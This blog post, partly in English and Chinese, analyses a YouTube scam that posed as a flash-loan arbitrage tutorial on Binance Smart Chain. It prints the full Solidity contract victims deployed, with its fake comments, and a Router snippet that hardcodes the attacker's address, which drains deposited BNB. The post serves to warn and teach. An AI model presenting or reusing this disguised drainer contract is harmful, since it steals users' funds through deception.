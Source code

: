 # Analysis of a technical smart contract scam  一次技术智能合约骗局分析
## Introduction 介绍
I once came across a video on YouTube which was named “How I earned BNB using Flashloans to Arbitrage on Binance Smartchain BSC”. The title was quite catchy because everyone who followed the crypto field in the beginning of 2021 was aware of Binance Smart Chain (BSC), which is a clone of Ethereum, and definitely heard about multiple attacks on DeFi projects running on this blockchain.

我曾经在 YouTube 上看到过一个视频，名为“我如何在币安智能链 BSC 上使用闪贷套利赚取 BNB”。 这个标题相当吸引人，因为每个在 2021 年初关注加密领域的人都知道币安智能链（BSC），它是以太坊的克隆，并且肯定听说过针对该区块链上运行的 DeFi 项目的多次攻击。

Following the success of DeFi on Ethereum, Binance created a copy of the blockchain and, allegedly, funded multiple projects that copied most successful and advanced DeFi-projects of Ethereum. Everything looked fine until a cascade of hacks that targeted projects on BSC in the Spring of 2021.

继以太坊上的 DeFi 取得成功之后，币安创建了区块链的副本，并据称资助了多个复制以太坊最成功和最先进的 DeFi 项目的项目。 一切看起来都很顺利，直到 2021 年春季针对 BSC 上的项目发生了一系列黑客攻击。

Most of the attacks used a similar scheme:

大多数攻击都使用类似的方案：

1. A DeFi contract had a flaw in token balances calculation.

   某 DeFi 合约在代币余额计算方面存在缺陷。

2. An attacker used a flash loan to inflate a token pool or vault.

   攻击者使用闪电贷来膨胀代币池或金库。

3. The attacker then exploited the flaw by doing a big trade or token swap and tricking the contract into thinking that all balances were correct.

   然后，攻击者通过进行大额交易或代币交换来利用该缺陷，并欺骗合约认为所有余额都是正确的。

4. The flash loan was repaid and the attacker got away with some profit.

   闪电贷已偿还，攻击者获得了一些利润。

So, for anyone who heard about those attacks it was hard to pass by (me included).

因此，对于任何听说过这些攻击的人来说（包括我）都很难忽视。

## Mechanics of the scam 骗局的机制
Author of the video shared how they managed to take a flash loan to make one arbitraging trade and earn several BNB (1 BNB costed around $400 back then). And, out of generosity, they shared the technique:
视频作者分享了他们如何通过闪电贷进行一笔套利交易并赚取数个 BNB（当时 1 个 BNB 的价格约为 400 美元）。 而且，出于慷慨，他们分享了这项技术：
1.Viewer was asked to deploy a smart contract that does all the job.

查看者被要求部署一个完成所有工作的智能合约。

2.To cover transaction fees, viewer was asked to deposit 0.25 BNB into the contract. The contract belonged to the viewer, so everything looked safe.

为了支付交易费用，观众被要求在合约中存入 0.25 BNB。 合约是属于观众的，所以一切看起来都很安全。

3.Then, viewer needed to execute flashloan function of the contract.

然后，查看者需要执行合约的闪贷功能。

The author even uploaded the contract to Remix, an Ethereum online IDE, so viewer needed to only click a couple of buttons.

作者甚至将合约上传到了以太坊在线 IDE Remix，因此查看者只需点击几个按钮即可。

It’s not hard to guess that everyone how followed the instructions lost the 0.25 BNB they deposited into the contract and got nothing in return. 

不难猜测，大家按照说明操作，损失了存入合约的 0.25 BNB，却没有得到任何回报。

## How to identify the scam

First thing that stands out is the 0.25 BNB fee: this is a very high transaction fee for BSC, you’d hardly ever submit a transaction that costs that much. Apparently, the attacker didn’t want it to be too suspicious and made the amount low enough to look like a real fee and big enough to satisfy their greed.

Second, never ever run a contract if you don’t know how it works. Here’s the contract viewers were instructed to deploy (comments are added by its author):

```solidity
pragma solidity ^0.5.0;

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

//BakerySwp Smart contracts
import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";

// Router
import "ipfs://QmUSQQNWBJ6snmx5FvafDSBCPCy63BLTpwM61dYjRzwLkN";

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

contract InitiateFlashLoan {
  RouterV2 router;
  string public tokenName;
  string public tokenSymbol;
  uint256 flashLoanAmount;

  constructor(
    string memory _tokenName,
    string memory _tokenSymbol,
    uint256 _loanAmount
  ) public {
    tokenName = _tokenName;
    tokenSymbol = _tokenSymbol;
    flashLoanAmount = _loanAmount;
    router = new RouterV2();
  }

  function() external payable {}

  function flashloan() public payable {
    // Send required coins for swap
    address(uint160(router.pancakeSwapAddress())).transfer(
      address(this).balance
    );

    //Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    router.borrowFlashloanFromMultiplier(
      address(this),
      router.bakerySwapAddress(),
      flashLoanAmount
    );

    //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);

    //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);

    //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    router.transferBnbToMultiplier(router.pancakeSwapAddress());

    //Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    router.completeTransation(address(this).balance);
  }
}
```

Everything looks kind of ok:

1. Real PancakeSwap, BakerySwap, and Multiplier-Finance contracts are imported.
2. A router contract is imported (IPFS? huh?).
3. Then there’s `flashloan` function that sends contract’s ethers to a PancakeSwap address, borrows a flash loan from Multiplier-Finance, makes an arbitraging swap, pays out the loan, and finally returns some profit to the contract.

In fact, it does only one thing: it sends all BNB deposited into the contract, to attacker’s address. That IPFS import definitely looks suspicious and there’s a reason they used IPFS there: so it’s harder to get the Router contract and see what it’s doing.

The Router contract contains a lot of lines to make it noisy and hard to read but it’s not hard to find the only important part:

```solidity
...

contract RouterV2 {
    ...
    function pancakeSwapAddress() public pure returns (address) {
        return 0x2593F13d5b7aC0d766E5768977ca477F9165923a;
    }

    ...
}
```



This is the address the main contract sends all funds to.

## Conclusion

This scam is an interesting case: most scams target non-tech savvy users of cryptocurrencies and this one targets those who are aware of flash loan attacks and who knows how to deploy smart contracts and how to interact with them directly. That is not a large audience but, [as we can see](https://bscscan.com/address/0x2593F13d5b7aC0d766E5768977ca477F9165923a#internaltx), many people have still fell victims of the scam.

If you like reading about blockchain security and hacks, I highly recommend subscribing to [Blockchain Threat Intelligence](https://blockthreat.substack.com/?utm_source=jeiwan.net&utm_medium=blog&utm_content=textlink) (I’m not its author).





